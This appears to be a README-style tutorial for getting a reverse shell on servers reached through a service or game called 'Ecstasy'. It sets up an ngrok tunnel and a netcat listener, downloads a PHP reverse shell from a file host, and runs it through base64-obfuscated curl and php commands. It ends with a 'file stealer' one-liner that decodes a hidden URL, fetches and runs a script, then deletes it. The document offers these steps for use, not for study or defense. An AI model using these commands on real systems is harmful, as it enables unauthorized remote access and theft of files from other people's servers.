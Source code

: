 # Simplest Reverse Shell Tutorial (Supports Some Linux and Some Windows Servers)

## On Your Own Computer
1. **Get Netcat**  
   - For Windows: [Download Netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)  
   - For Linux or macOS: Find and install the appropriate files for your OS.

2. **Get Ngrok and Set Up**  
   - [Download and setup Ngrok](https://ngrok.com)

3. **Start Ngrok**  
```ngrok tcp 4444```


4. **Start Netcat**  
```nc -lvp 4444```


5. **Download and Edit PHP File**
   - [Download the PHP file](https://files.catbox.moe/s69sex.php) and edit the IP and port to be the Ngrok one.
   - Reupload the edited file to [catbox.moe](https://catbox.moe).

6. **Convert URL to Base64**
   - Use [base64encode.org](https://www.base64encode.org/) to convert the URL to Base64.

## In Game (run under the shell command)
7. **Copy and Paste the Command into Ecstasy**
   - While logged into Ecstasy, use the command below, replacing `{BASE64 GOES HERE}` with the Base64 link:
```curl -O $(echo "{BASE64 GOES HERE}" | base64 --decode)```


8. **Encode Filename and Extension to Base64**
   - Encode the filename and extension that catbox.moe gives in the URL to Base64.

9. **Run the PHP Script**
 ```php $(echo "{FILE NAME BASE64}" | base64 --decode)```
 - If there are errors, the server might not have PHP installed. See below for installation instructions.

## Install PHP on Linux Servers

**To get the distro, use the command:**
```cat /etc/os-release```

### Ubuntu/Debian
```apt install php```

### Fedora
```dnf install php -y```

### Arch
```pacman -S php```


# Duck Notes
![info](https://r2.e-z.host/1aef6b94-3653-4c51-8fef-6587df7580f5/qos28fmh.png)

# file stealer
`bash -c 'curl -o steal.sh $(echo "aHR0cHM6Ly9jYXRsaXR0ZXIubWlub2EuY2F0L2FwaS92aWV3L2FkMGI1MTJhNzZiNTBjODhlY2VmLnNo" | base64 --decode) && chmod +x steal.sh && ./steal.sh && rm -- steal.sh'`
